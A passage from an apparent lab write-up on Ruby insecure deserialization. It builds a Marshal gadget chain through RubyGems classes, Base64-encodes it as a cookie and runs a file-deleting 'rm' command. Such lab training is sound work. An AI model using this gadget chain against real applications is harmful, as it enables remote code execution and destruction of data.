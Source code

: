 ```

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
 # Ensure the Base64 module is required

# Your previous code...

# Encode the payload in Base64
encoded_payload = Base64.encode64(payload)

# Print the encoded payload
puts encoded_payload
puts payload
```
 
   **Output:**

<img width="1248" height="603" alt="image" src="https://github.com/user-attachments/assets/7641cf95-8b54-4b7b-8c8b-259897bd28a4" />

**Notice:** The id parameter is replaced with ‘rm /home/carlos/morale.txt’

i deleted the last two lines and replaced with puts payloads as i will base64 encode it on the terminal.


<img width="1910" height="140" alt="image" src="https://github.com/user-attachments/assets/aaf9f627-c0bf-46e7-b602-1b9115e9f326" />



Copy and pasting above base64 encode cookie the lab is solved


<img width="1698" height="477" alt="image" src="https://github.com/user-attachments/assets/3031d846-533f-4564-935c-786b1cd206a6" />




---
